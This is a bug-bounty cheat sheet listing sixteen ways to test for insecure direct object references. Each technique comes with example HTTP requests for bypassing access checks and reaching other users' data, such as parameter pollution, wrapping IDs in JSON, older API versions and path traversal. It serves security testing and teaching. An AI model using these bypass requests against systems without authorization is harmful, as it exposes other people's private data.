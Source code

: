 # Insecure Direct Object Reference (IDOR)

## **Introduction**
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## **How to Find**
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser
[...]
```
Try this to bypass
```
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution
```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234
[...]
```
Try this to bypass
```
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions
```
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```
GET /graphql
[...]
```
```
GET /graphql.php?query=
[...]
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d
```
Try this to bypass
```
GET /file?id=302
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111
```
Try this to bypass
```
POST /api/v1/users/profile/111
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id
```

14. Change request content type
```
Content-type: application/xml
```
Try this to bypass
```
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111
```
Try this to bypass
```
GET /api/users/*
```

16. Try google dorking to find new endpoint

## Reference

   - https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md
